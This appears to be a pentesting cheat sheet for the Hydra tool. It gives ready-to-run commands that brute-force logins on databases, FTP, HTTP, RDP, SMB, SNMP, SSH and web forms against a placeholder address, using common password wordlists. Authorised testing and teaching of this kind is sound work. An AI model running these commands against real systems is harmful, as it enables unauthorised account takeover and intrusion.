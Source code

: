 ```yaml
---
title: Hydra
desc: Cracks username and password in web form, SSH, FTP.
tags: [BruteForce, Cryptography, Database, FTP, Linux, Password, RDP, SMB, SNMP, SSH, Web]
alts: [CrackStation, Hashcat, JohnTheRipper, Wfuzz]
website:
render_with_liquid: false
---
```


## Databases

```sh
# MySQL
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 mysql

# PostgreSQL
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 postgres
```

<br />

## FTP

```sh
# Crack password
hydra -l username -P passwords.txt ftp://10.0.0.1
```

<br />

## HTTP GET request (Authorization, WWW-Authenticate)

```sh
# Crack username and password
hydra -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 http-get
```

<br />

## RDP (Remote Desktoop Protocol)

```sh
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 rdp
```

<br />

## SMB

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 smb

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 smb
```

<br />

## SNMP (Simple Network Management Protocol)

```sh
# Brute Force Community
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt 10.0.0.1 snmp
```

<br />

## SSH

```sh
# Crack username
hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 ssh

# Crack password
hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 ssh

# Specify port
hydra -l username -P /usr/share/wordlists/rockyou.txt -s 2222 10.0.0.1 ssh
hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.1:2222
```

<br />

## Web form

```sh
# Crack username
hydra -L /usr/share/seclists/Usernames/Names/names.txt -p secret 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"

# Crack password
hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
```
